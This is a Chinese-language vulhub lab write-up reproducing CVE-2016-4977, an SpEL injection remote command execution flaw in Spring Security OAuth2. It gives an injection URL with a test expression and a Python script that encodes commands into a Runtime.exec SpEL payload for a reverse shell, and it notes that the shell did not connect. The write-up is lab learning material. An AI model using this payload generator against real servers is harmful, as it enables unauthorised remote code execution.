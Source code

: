 

# Spring Security OAuth2 远程命令执行漏洞（CVE-2016-4977）

###### by ADummy

### 0x00利用路线

​			burpuite抓包--->改包--->SpEL命令执行

### 0x01漏洞介绍

​			Spring Security OAuth 是为 Spring 框架提供安全认证支持的一个模块。在其使用 whitelabel views 来处理错误时，由于使用了Springs Expression Language (SpEL)，攻击者在被授权的情况下可以通过构造恶意参数来远程执行命令。

​			影响版本

  		2.0.0-2.0.9
  		1.0.0-1.0.5

### 0x02漏洞复现

​		访问`http://your-ip:8080/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`。首先需要填写用户名和密码，我们这里填入`admin:admin`即可。

可见，我们输入是SpEL表达式`${233*233}`已经成功执行并返回结果：

![Spring_Security_OAuth2_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Security_OAuth2_RCE_1.jpg)

然后，我们使用[poc.py](https://github.com/vulhub/vulhub/blob/master/spring/CVE-2016-4977/poc.py)来生成反弹shell的POC（注意：[Java反弹shell的限制与绕过方式](http://www.jackson-t.ca/runtime-exec-payloads.html)）：

poc

```
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)
```

![Spring_Security_OAuth2_RCE_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Security_OAuth2_RCE_2.jpg)



![Spring_Security_OAuth2_RCE_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Security_OAuth2_RCE_3.jpg)



反弹shell 显示连接 但一直连接failed不知道为啥

![Spring_Security_OAuth2_RCE_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Spring_Security_OAuth2_RCE_4.jpg)

### 

